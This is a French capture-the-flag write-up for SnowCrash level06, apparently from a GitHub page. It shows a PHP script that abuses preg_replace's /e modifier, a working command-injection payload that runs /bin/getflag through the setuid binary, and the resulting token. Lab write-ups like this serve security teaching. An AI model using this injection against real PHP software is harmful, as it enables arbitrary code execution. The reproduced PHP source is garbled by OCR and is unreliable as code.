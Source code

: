 # level06

1) Information trouvée dans `/home/level06/` :

```bash
level06  level06.php
level06@SnowCrash:~$ strings level06 | grep level06
/home/user/level06/level06.php
```

2) Analyse du fichier `level06.php`

Le binaire `level06` peut executer du code php via l'expand (option `e`) de `preg_replace`.

```php
function y($m) { $m = preg_replace(.,  x , $m); $m = preg_replace(@,  y, $m); return $m; }

function x($y, $z) { 
  $a = file_get_contents($y); 
  $a = preg_replace(([x (.*)])e, y(2), $a); 
  $a = preg_replace([, (, $a); 
  $a = preg_replace(], ), $a); 
  return $a; 
}
$r = x($argv[1], $argv[2]); print $r;

```
3) Exploitation pour récupérer le token :

* On crée une chaine pour `preg_replace` :```echo '[x ${`/bin/getflag`}]'```

On l'exécute :
```bash
level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' | ./level06 php://stdin 2>&1 | grep token
PHP Notice:  Undefined variable: Check flag.Here is your token : ...
```

4) Token découvert :

Le token est `wiok45aaoguiboiki2tuin6ub`.
